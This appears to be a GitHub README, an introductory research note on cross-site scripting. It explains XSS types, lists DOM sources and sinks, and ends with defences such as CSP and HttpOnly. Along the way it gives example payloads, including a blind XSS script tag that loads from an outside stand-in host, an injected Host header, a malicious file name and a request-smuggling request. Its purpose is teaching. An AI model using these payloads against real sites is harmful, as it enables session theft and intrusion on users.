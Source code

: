 # XSS-reserch
A research related to xss vulnerability
XSS (Cross-Site Scripting) vulnerability refers to code injection where hackers are able to inject malicious code into web pages or other web applications. These codes may include JavaScript, HTML, or other programming languages. An XSS vulnerability allows hackers to steal sensitive user information, steal user sessions, or perform unauthorized operations.

XSS vulnerability is divided into several categories:

    stored
    reflected
    blind
    self
    DOM
    
Stored xss
This type of attack is one of the worst types of XSS attacks, where the hacker permanently places his code on the victim's website so that he can use it permanently 


Reflected xss
This type of attack, which is also the most common XSS attack, the intruder finds temporary security holes in the website and implements his goals.
For example, if the site has a hole in the search section, the hacker can enter the desired code and provide other users with the address of the vulnerable page using shortened links.

DOM-xss
DOM XSS is an advanced type of XSS attack that allows an attacker to inject malicious scripts along with data sent to the Document Object Model (DOM). The data is then read by the web application and transferred to the browser.
In JavaScript, sinks refer to places that receive and use external data. Generally, sinks are points in a program or web page where input data is used, and if the input is not properly validated, it can lead to security vulnerabilities.
For example, functions like innerHTML, eval, setAttribute, etc. are common sinks in JavaScript. These functions can directly or indirectly receive external data and use them in a web page or program. If the inputs to these functions are not properly validated, hackers may be able to inject malicious code as inputs to these functions and have them executed in users' browsers.
On the other hand, sources in JavaScript refer to places that generate or provide external data. Generally, sources are points in a program or web page that produce external data.
So, in summary, DOM XSS occurs when a JavaScript source accepts user input and passes it to another function that may execute it as an unsafe sink.

Source

    document.URL
    document.documentURI 
    document.URLUnencoded 
    document.baseURI 
    location 
    document.cookie 
    document.referrer 
    window.name 
    history.pushState 
    history.replaceState
    
sink

    document.write()
    window.location
    document.cookie
    eval()
    document.domain
    WebSocket()
    someElement.src
    postMessage()
    setRequestHeader()
    FileReader.readAsText()
    ExecuteSql()
    sessionStorage.setItem()
    document.evaluate()
    JSON.parse()
    someElement.setAttribute()
    RegExp()

Blind xss
Blind XSS vulnerability is a type of Persistent XSS vulnerability. This vulnerability occurs when the penetration test input is stored on the web server and executed by a script in another part of the application or in another application.
Payload

    "><script src=https://hello.xss></script>


self-xss
This vulnerability is implemented through social engineering attacks that force the victim to enter malicious code into their console 

  
-------------------------------------------------------

Vulnerabilities that convert to xss:

    css injection 
    html injection 
    clickjacking 
    host header injection 
    Request smuggling 
    File Upload

css injection

CSS Injection Vulnerability means injecting malicious CSS code into web pages or web applications. This vulnerability allows hackers to inject malicious CSS code into the page and make changes to the appearance and display of the page. These codes may include changing colors, fonts, hiding elements, and other stylistic changes, or even the vulnerability can be converted to xss.
Payload:

     body {
           background-image: url('javascript:alert("origin")');
     }


HTML injecton

HTML Injection vulnerability means injecting malicious HTML code into web pages or web applications. This vulnerability allows hackers to inject malicious HTML code into the page and make changes to the structure and display of the page. These codes may include adding new HTML elements, changing content, and hiding elements

XSSJacking

If our target has a clickjacking vulnerability, a self xss attack can be executed
Clickjacking vulnerability occurs when the website has used the iframe tag but has not secured it with the X-Frame-Option header.

XSS via to HOST header injection

Attacks that include direct injection of the payload into the Host header are called Host header injection attacks, which can sometimes be converted to xss.
Payload

    X-forwarded-host: "><script>alert(origin)</script>

Xss via upload file

There are two modes for xss in upload file

1_ Through the file name
Payload

    "><img src=x onerror=alert(origin)>.png

2_ Making changes in the content of the file   

Request smuggling to xss

The vulnerability of request smuggling can be converted to xss
for example :

    POST/HTTP/1.1
    Host: hacker
    Content-Length: 150 
    Transfer-Encoding: chunked

    0

    GET /hello
    user-agent: "><script>alert(origin)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4

    X = 1
-------------------------------------------------------
xss exploit
  
Stealing Cookies:

    alert(document.cookie) 
    
open redirect:

    location.replace(http://......)
    
-------------------------------------------------------
Methods to prevent xss vulnerability :

    HttpOnly 
    CSP
    x-xss-Protection
    Filter

HttpOnly

http-only cookies, the thing about these cookies is that the browser prevents them from being read by javascript.
HttpOnly can be bypassed through phpinfo

CSP

Content Security Policy or CSP is a large new HTTP header that controls where a browser is allowed to load content and what type of content it is allowed to load to prevent attacks like XSS.

x-xss-protection

This header helps us to prevent the occurrence of xss vulnerability

Filter

Characters can be filtered with the help of some functions such as htmlspecialchars
